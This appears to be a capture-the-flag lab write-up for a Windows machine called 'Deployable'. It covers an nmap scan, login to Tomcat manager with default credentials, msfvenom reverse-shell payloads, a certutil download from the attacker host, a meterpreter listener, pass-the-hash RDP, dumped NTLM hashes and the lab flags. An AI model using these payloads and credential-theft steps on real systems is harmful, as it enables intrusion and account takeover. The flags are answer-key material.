 # DEPLOYABLE

![](../.gitbook/assets/673ed4be25b546348805822c3432b0f0.png)

## NMAP SCAN

```text
PORT      STATE SERVICE            REASON          VERSION
135/tcp   open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn        syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       syn-ack ttl 127 Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server? syn-ack ttl 127
5985/tcp  open  http               syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8009/tcp  open  ajp13              syn-ack ttl 127 Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp  open  http               syn-ack ttl 127 Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
47001/tcp open  http               syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49152/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49153/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49154/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49155/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49156/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49163/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49164/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
```

## PORT 8080 ENUMERATION

![](../.gitbook/assets/96c7a10fc57d4805a60b1c92acdc8cfa.png)

* DEFAULT CREDENTIALS WORKED \(tomcat:s3cret\)

![](../.gitbook/assets/bb87fd6998f04a8ab07da7814e40761c.png)

### EXPLOIT

```text
msfvenom -p java/meterpreter/reverse_tcp LHOST=10.10.0.63 LPORT=5314 -f war -o shell.war
```

![](../.gitbook/assets/fc8f1d8ce1314b268d124056291d3053.png)

![](../.gitbook/assets/bc7dfc640f0a4707a6d2a8e30d62aec7.png)

![](../.gitbook/assets/eba3297774ce4c889c5b716ef286dedb.png)

## WINPEAS

![](../.gitbook/assets/a0b059640dc548e2a70dfcbae4487700.png)

![](../.gitbook/assets/d585b6f33f7c4f9c975325f637225646.png)

![](../.gitbook/assets/050d5eb84a32412fb56c5633679e1c6e.png)

![](../.gitbook/assets/7e640394f57a4ca4b0c8aacc2cca49ae.png)

## PRIV ESC

![](../.gitbook/assets/50a5ec625ab34939915da28bb2505e91.png)

```text
msfvenom -p windows/meterpreter_reverse_tcp LHOST=10.10.0.63 LPORT=5314 -f exe -o Service.exe

Listener
msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter_reverse_tcp; set LHOST 10.10.0.63; set LPORT 5314; run"
```

![](../.gitbook/assets/41a01ffcddd64b53aa28a1d0c6eed2cb.png)

```text
certutil -urlcache -f http://10.10.0.63:8000/Service.exe Service.exe

```

![](../.gitbook/assets/3c94e273a360433792d77af37b2ac7b8.png)

![](../.gitbook/assets/26456905ca914d648fd9a114a291f300%20%281%29.png)

![](../.gitbook/assets/50a5ec625ab34939915da28bb2505e91%20%281%29.png)

* My METERPRETER died so i repeat the process and immediately migrate to a more stable service \(svchost.exe\)

![](../.gitbook/assets/78a1516318374affaeb04a92c61bc3b4.png)

![](../.gitbook/assets/8ac61342d4f84464be34955132dcde60.png)

## AFTER GETTING THE CREDS \(NTLM\) WE CAN LOGIN RDP IF WE WANT

```text
xfreerdp /u:administrator /pth:0bb5408c47b5f48554e95414ce42a97c /cert:ignore /v:172.31.1.13
```

![](../.gitbook/assets/36d741281e3640a8bacb15501648b6fa.png)

![](../.gitbook/assets/938bd9cfa0e549c4b87b640452b13336.png)

## CREDS

```text
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0bb5408c47b5f48554e95414ce42a97c:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
tomcat:1001:aad3b435b51404eeaad3b435b51404ee:43e4a10ae4179f461f8b069336b1dd07:::
```

## FLAGS

### USER

```text
5b7dbd2f4ce39bb536fe1da6c897a4fb
```

### ROOT

```text
11400db5d23b9738534002f27b86c030
```

![](../.gitbook/assets/f32977a349284be88d518e76148423c6.png)

